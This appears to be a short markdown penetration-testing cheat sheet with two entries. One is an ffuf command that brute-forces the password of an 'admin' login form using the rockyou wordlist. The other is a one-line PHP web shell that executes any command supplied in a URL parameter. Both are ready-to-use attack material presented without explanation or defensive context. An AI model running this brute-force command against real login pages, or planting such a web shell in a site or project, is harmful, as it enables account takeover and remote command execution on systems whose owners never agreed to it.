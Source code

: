 # Cheat Sheet

[← Go back to main page](./index.md)

## [ffuf](https://github.com/ffuf/ffuf)

### Simple login page

```sh
ffuf \
  -u https://website.com/login \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -X POST -d "username=admin&password=FUZZ" \
  -w /usr/share/wordlists/rockyou.txt:FUZZ  \
  -fr "Incorrect"
```
  
## Web shell

### PHP

```php
<?php echo system($_GET['command']); ?>
```
